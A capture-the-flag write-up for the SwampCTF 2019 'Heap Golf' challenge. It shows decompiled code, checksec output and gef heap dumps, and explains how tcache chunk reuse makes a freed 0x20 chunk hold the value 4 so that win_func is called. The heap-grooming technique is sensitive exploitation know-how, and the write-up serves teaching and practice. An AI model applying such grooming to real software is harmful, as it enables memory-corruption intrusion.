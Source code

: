 # SwampCTF 2019 - Heap Golf
We use heap grooming to get a desired value into a pointer. The objective is to call **win_func**.

## Binary
### Code
Decompiled with Binary Ninja HLIL.

```c
int32_t main(int32_t argc, char** argv, char** envp)

  void* fsbase
  int64_t canary = *(fsbase + 0x28)
  int64_t green_0 = malloc(0x20)
  write(0, 0x400975, 0x1a)  {"target green provisioned.\n"}
  int64_t green_array
  *(&green_array + 0) = green_0
  int32_t index = 1
  write(0, 0x400990, 0x30)  {"enter -1 to exit simulation, -2 …"}
  while (true)
      write(0, 0x4009c1, 0x1c)  {"Size of green to provision: "}
      void input
      read(1, &input, 4)
      int32_t size = atoi(&input):0.d
      if (size == -1)
          break
      if (size == -2)
          for (int32_t i = 0; i s< index; i = i + 1)
              free(*(&green_array + (sx.q(i) << 3)))
          green_array = malloc(0x20)
          write(0, 0x400975, 0x1a)  {"target green provisioned.\n"}
          index = 1
      else
          int32_t* green_n = malloc(sx.q(size))
          *green_n = index
          *(&green_array + (sx.q(index) << 3)) = green_n
          index = index + 1
          if (index == 0x30)
              write(0, 0x4009de, 0x19)  {"You're too far under par."}
              break
      if (*green_0 == 4)
          win_func()
  if ((canary ^ *(fsbase + 0x28)) == 0)
      return 0
  __stack_chk_fail()
  noreturn

```


### Security 
NX and stack canaries enabled.

```shell
$ checksec ./heap_golf1 
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## Solution
Allocate a heap chunk of the same size of *green_0*, 0x20, and then free them. When it automatically allocates the first green in our *green_array* it will return a pointer to the heap chunk we allocated. Now we just need to allocate chunks of sizes far away from 0x20 until the index is equal to our desired value, 4. When we now allocate a chunk of size 0x20 it will return the same chunk used previously for *green_0* and call **win_func**.


### Heap chunks at the start
```shell
gef➤  heap chunks
Chunk(addr=0x602010, size=0x290, flags=PREV_INUSE)
    [0x0000000000602010     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x6022a0, size=0x30, flags=PREV_INUSE)
    [0x00000000006022a0     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x6022d0, size=0x20d40, flags=PREV_INUSE)  ←  top chunk
```
We have *green_0* at 0x6022a0.

### Heap chunks after first allocation
```shell
gef➤  heap chunks
Chunk(addr=0x602010, size=0x290, flags=PREV_INUSE)
    [0x0000000000602010     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x6022a0, size=0x30, flags=PREV_INUSE)
    [0x00000000006022a0     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x6022d0, size=0x30, flags=PREV_INUSE)
    [0x00000000006022d0     01 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x602300, size=0x20d10, flags=PREV_INUSE)  ←  top chunk
```
We have another chunk with the same size and containing the value 1.

### Heap chunks after free and automatic allocation
```shell
gef➤  heap bins
─────────────────────────────────────────────────────────────────────────────────── Tcachebins for arena 0x7ffff7fb0b80 ───────────────────────────────────────────────────────────────────────────────────
Tcachebins[idx=9, size=0xb0] count=0  ←  Chunk(addr=0x6022a0, size=0x30, flags=PREV_INUSE) 

gef➤  heap chunks
Chunk(addr=0x602010, size=0x290, flags=PREV_INUSE)
    [0x0000000000602010     00 00 01 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x6022a0, size=0x30, flags=PREV_INUSE)
    [0x00000000006022a0     00 00 00 00 00 00 00 00 10 20 60 00 00 00 00 00    ......... `.....]
Chunk(addr=0x6022d0, size=0x30, flags=PREV_INUSE)
    [0x00000000006022d0     a0 22 60 00 00 00 00 00 00 00 00 00 00 00 00 00    ."`.............]
Chunk(addr=0x602300, size=0x20d10, flags=PREV_INUSE)  ←  top chunk
```
The chunk that was *green_0*, 0x6022a0, is now in the Tcachebin and the chunk we created, 0x6022d0, is now allocated.

(The binary does not clean the data received from malloc so the chunk allocated automatically still contains a pointer to the next free chunk in the Tcachebin. I also believe that 0x6022a0 should not appear in the command *"heap chunks"* from gef and that it is a mistake.)

### Heap chunks after 3 allocations of sizes away from 0x20
```shell
gef➤  heap chunks
Chunk(addr=0x602010, size=0x290, flags=PREV_INUSE)
    [0x0000000000602010     00 00 01 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x6022a0, size=0x30, flags=PREV_INUSE)
    [0x00000000006022a0     00 00 00 00 00 00 00 00 10 20 60 00 00 00 00 00    ......... `.....]
Chunk(addr=0x6022d0, size=0x30, flags=PREV_INUSE)
    [0x00000000006022d0     a0 22 60 00 00 00 00 00 00 00 00 00 00 00 00 00    ."`.............]
Chunk(addr=0x602300, size=0x70, flags=PREV_INUSE)
    [0x0000000000602300     01 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x602370, size=0x70, flags=PREV_INUSE)
    [0x0000000000602370     02 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x6023e0, size=0x70, flags=PREV_INUSE)
    [0x00000000006023e0     03 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x602450, size=0x20bc0, flags=PREV_INUSE)  ←  top chunk
```
We can see 3 more chunks containing values from 1, 2 and 3.

### Heap chunks after allocating chunk of size 0x20
```shell
gef➤  heap chunks
Chunk(addr=0x602010, size=0x290, flags=PREV_INUSE)
    [0x0000000000602010     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x6022a0, size=0x30, flags=PREV_INUSE)
    [0x00000000006022a0     04 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x6022d0, size=0x30, flags=PREV_INUSE)
    [0x00000000006022d0     a0 22 60 00 00 00 00 00 00 00 00 00 00 00 00 00    ."`.............]
Chunk(addr=0x602300, size=0x70, flags=PREV_INUSE)
    [0x0000000000602300     01 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x602370, size=0x70, flags=PREV_INUSE)
    [0x0000000000602370     02 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x6023e0, size=0x70, flags=PREV_INUSE)
    [0x00000000006023e0     03 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x602450, size=0x20bc0, flags=PREV_INUSE)  ←  top chunk
```
We got served the chunk that was in the Tcachebin, 0x6022a0, and it now contains the value 4. So we finally get to the **win_func** and get our flag.
